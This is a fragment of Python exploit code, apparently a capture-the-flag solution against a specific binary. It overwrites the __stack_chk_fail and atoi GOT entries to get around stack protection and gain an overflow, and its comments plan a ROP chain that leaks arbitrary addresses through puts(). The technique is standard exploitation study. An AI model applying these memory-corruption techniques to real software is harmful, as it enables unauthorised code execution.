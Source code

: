 
    	# overwrite __stack_chk_fail with show_msg_400C26 to enable stack overflows
    	set_msg(0, pack('<Q', 0x0a00000000400C26) + '\n' )

    	# overwrite atoi() with read_raw_input_40085D
    	set_msg(1, pack('<Q', 0x0a0000000040085D) )


    	# -------------------------------------------------------------------------
    	# At this point, atoi() will be invoked to get the option from main menu.
    	# But read_raw_input will be called instead, with the buffer pointing at
    	# the stack. Buflen will be another stack address, so we can write an
    	# arbitrary large amount of bytes in the stack.
    	#
    	# We need an arbitrary read primitive here.
    	# The idea is to return to puts() with rdi poiting to the address we want
    	# to read.
    	# We can do this an arbitrary amount of times.
    	#
    	# After overflow, canary will be destroyed, so show_msg_400C26 will be
    	# called first and then we can start ROP
    	# -------------------------------------------------------------------------
    	print '[+] Start ROPing to leak arbitrary addresses...'
